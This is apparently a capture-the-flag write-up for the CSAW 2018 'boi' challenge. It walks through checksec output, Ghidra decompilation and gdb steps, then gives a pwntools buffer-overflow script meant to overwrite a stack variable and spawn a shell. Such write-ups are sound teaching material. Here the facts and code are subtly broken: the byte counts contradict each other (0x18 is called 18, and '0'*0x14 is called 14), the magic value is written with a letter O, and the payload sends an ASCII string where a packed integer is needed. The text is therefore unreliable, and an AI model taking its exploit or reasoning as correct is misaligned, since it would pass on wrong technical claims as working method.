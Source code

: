 ```yaml
---
layout: post
title: CSAW 2018 Qualifiers - Big Boy
date: 2023-12-6
categories: [CTF, Binary Exploitation]
tags: [CTF]     
---
```



This is a beginner binary exploitation challenge that serves as a good introduction to buffer overflow.

Let's start by taking a look at the file

```
 $  pwn checksec boi

[*] '/home/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It seems that we are dealing with a 64-bit binary with a non-executable stack and a stack canary. Let's try running it

```
$   ./boi

Are you a big boiiiii??
Not really
Wed Dec  6 16:45:04 EET 2023
```

The executable prompted us for input, then returned the current date and time. If we take a look at the main function in Ghidra

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 Input;
  undefined8 local_30;
  undefined4 uStack_28;
  int Target;
  undefined4 local_20;
  long StackCanary;
  
  StackCanary = *(long *)(in_FS_OFFSET + 0x28);
  Input = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  Target = -0x21524111;
  puts("Are you a big boiiiii??");
  read(0,&Input,0x18);
  if (Target == -0x350c4512) {
     run_cmd("/bin/bash");
  }
  else {
     run_cmd("/bin/date");
  }
  if (StackCanary != *(long *)(in_FS_OFFSET + 0x28)) {
                            /* WARNING: Subroutine does not return */
     __stack_chk_fail();
  }
  return 0;
}
```

We see that the code:

- initializes the integer `Target` with the value `-0x21524111` 
- prints out "Are you a big boiiiii??" using `puts()` 
- reads 18 bytes from our input
- Checks to see if the value of `Target` is `-0x350c4512`
- If true, opens a shell
- If false, prints the current date

To complete this challange, we have to overwrite the value of `Target` and set it to `OxCAF3BAEE` (the unsigned equivalent of`-0x350c4512`). That would result in the binary running `/bin/bash/`. From Ghidra, we can see where the comparison is taking place. 

![Ghidra](/assets/Image8.png)

Let's use gdb to set a breakpoint at that address, then run the binary.

```
$ gdb boi

gdb > break *0x4006a5
gdb > run
Are you a big boiiiii??
yea
```

We notice that our input is 14 bytes away from the value of `Target`.

![pwngdb](/assets/Image9.png)

We can create an exploit which will send 18 bytes (maximum we are allowed) where 14 bytes are the filler needed to reach `Target` and the last 4 bytes are `OxCAF3BAEE`, which would overwrite `0xDEADBEEF`

```python
from pwn import *

# Establish the target process
target = process('./boi')

# The payload consists of 14 filler bytes and the 4 byte integer we overwrite target with
payload = "0"*0x14 + "0xcaf3baee"

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```
